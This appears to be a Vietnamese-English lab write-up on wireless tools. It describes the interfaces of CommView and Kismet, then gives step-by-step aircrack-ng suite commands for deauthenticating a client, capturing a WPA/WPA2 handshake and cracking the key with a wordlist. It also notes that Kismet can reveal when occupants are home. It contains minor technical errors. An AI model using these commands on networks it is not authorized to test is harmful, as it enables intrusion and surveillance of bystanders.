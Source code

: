 ## **I. COMMVIEW** 
### **1. General about Commview**
Commview là một chương trình dùng để bắt (capturing) và phân tích (analyzing) các gói tin cho mạng Internet hoặc mạng LAN.

Hiện thị các thông số về Channel and Amplitude of APs.
### **2. Cách sử dụng**
Giao diện của chương trình có 5 trang cho phép bạn xem các dữ liệu và thực thi các hành động khác nhau đối với các gói tin đã bắt được.

Để bắt đầu bắt gói tin, chọn card mạng từ danh sách thả xuống trên thanh công cụ Toolbar, và click vào nút Start Capture hoặc chọn menu File -> Start Capture.

Nếu các gói tin nào đi ngang qua card mạng mà bạn đã chọn, CommView sẽ hiển thị các thông tin về các gói tin đó. 

#### **a) Nodes**
Show all information, such as: Vendor Name/MAC address, Channel, SSID, Signal, Max rate, Streams, Rate, Byte, Packet, Retry, Fragment,…
#### **b) Channels**
Show something about statics, general information about each channel:

Statistics about packet types and data rates:
#### **c) Latest IP Connections (IP Statistics)**
Trang này dùng để hiển thịthông tin chi tiết về những kết nối mạng của máy tính của bạn.
* Local IP – hiển thị địa chỉ IP local. : Tùy gói tin inbound / outbound packets.
* Remote IP – giống như Local IP nhưng ngược lại.
* In, Out –Hiển thị số gói tin đã nhận được / gửi đi.
* Direction –Hiển thị hướng đi của gói tin đó.
* Sessions – hiển thị số các phiên (sessions) kết nối TCP/IP thành công.
* Ports – Liệt kê tất cả các port của remote computer dùng các kết nối sử dụng giao thức TCP/IP.
* Hostname – Hiện thịtên của máy tính từ xa (remote computer). Nếu tên máy tính không thể phân giải
được, thì cột này bỏ trống.
* Bytes – hiển thị số các bytes đã được truyền trong phiên làm việc này. 
#### **d) Packet**
Trang này được sử dụng để liệt kê tất cả các gói tin mạng đã được bắt và hiển thị thông tin chi tiết
về các gói tin.

Bảng trên cùng (bảng thứ 1) hiển thị các gói tin đã bắt được. Dùng bàng này để chọn các gói tin nào mà bạn muốn hiển thị và phân tích. Khi bạn chọn gói tin bằng cách click chuột vào nó, thì có 2 bảng khác hiển thị các thông tin chi tiết về gói tin mà bạn chọn.
* No – số thứ tự của gói tin.
* Protocol – hiển thị giao thức của gói tin.
* MAC Addresses – hiển thị địa chỉ MAC nguồn và đích, hướng đi của gói tin.
* IP addresses – hiển thị địa chỉ IP nguồn và đích của gói tin, hướng đi của gói tin.
* Ports –hiển thị port nguồn và port đích của gói tin, hướng đi của gói tin. Port có thểhiện thịtheo tên dịch
vụ hay theo giá trị số.
* Time / Delta – hiển thịthời gian tuyệt đối hoặc thời gian delta (delta time). Delta time là sự chênh lệnh
giữa 2 gói tin cuối cùng của thời gian tuyệt đối.
#### **e) Rules**
Trang này cho phép bạn tạo ra các rule để bắt các gói tin. Ví dụ bạn có thể tạo ra rule để bắt những
gói tin đi vào mạng của bạn. Có một vài rule mà bạn cần biết. 
* Protocols & Direction:Cho phép bạn bỏ qua hay bắt những gói tin dựa trên giao thức của tầng 2 và tầng
3, hướng đi của gói tin.
* MAC addresses Cho phép bạn bỏ qua hay bắt gói tin dựa trên địa chỉ MAC.
* Ports Cho phép bạn bỏ qua hay bắt gói tin dựa trên port của gói tin đó.
* TCP Flags Cho phép bạn bỏ qua hay bắt gói tin dựa trên TCP flags.
* Text Cho phép bạn bắt gói tin dựa trên nội dung.
### **3. Thanh công cụ / hỗ trợ**
Ngoài các tính năng kể trên, CommView còn hỗ trợ các tùy chọn khác như IP Alisases, MAC alisases, Package Generator, Reconstruct TCP session
## **II. KISMET**
Flow: Open Terminal -> airmon-ng start wlan0

Kismet can detect any nearby devices that use Wi-Fi, whether they are connected or not. This ability lets us scan the nearby area for both APs and client devices, even watch small details about when a device or connection is in use. 

With this data, we can tell when people are home, what devices they own & when they are using them.

Devices per channel:

General information about all nearby devices use Wi-Fi:

Device Details –Device Info:

Statistics about Wi-Fi:

Packet Graphs:
## **III. CRACKING WPA/WPA2-PSK WITH A DICTIONARY ATTACK**
### **1. Methodology**: Dictionary attack.

### **2. Used software**:
* Aireplay-ng – Most popular Perl-based WEP encryption cracking tool
* Airodump – GrabbingIVs

### **3. Requirement**:
* OS: Obviously Kali Linux (at least 2016.2) installed and working.
* A wireless adapter capable of injection/monitor mode. Some computers have network cards capable of this from the factory. If it isn't available you'll have to buy an external one.
* A wordlist to attempt to "crack" the password once it has been captured.

### **4. Details of steps**:
#### **Step 1 - Start the wireless interface in monitor mode**
* airmon-ng
* airmon-ng start wlan0
* iwconfig
#### **Step 2 - Start airodump-ng to collect authentication handshake**
* airodump-ng wlan0mon -> Xac dinh channel
* iwconfig wlan0mon channel 11 -> Xac dinh 1 client dang ket noi toi AP.
* airodump-ng -c 11 --bssid <MAC_AP> -w psk wlan0mon ...Set up 1 client connect AP !!
#### **Step 3 - Use aireplay-ng to deauthenticate the wireless client**
* aireplay-ng -0 1 -a <MAC_AP> -c <Client_AP> ath0
#### **Step 4 -Run aircrack-ng to crack the pre-shared key**
* aircrack-ng -w password.lst -b <MAC_AP> psk*.cap
### **5. Demo is available on Youtube: https://youtu.be/lyvsETiD1WM**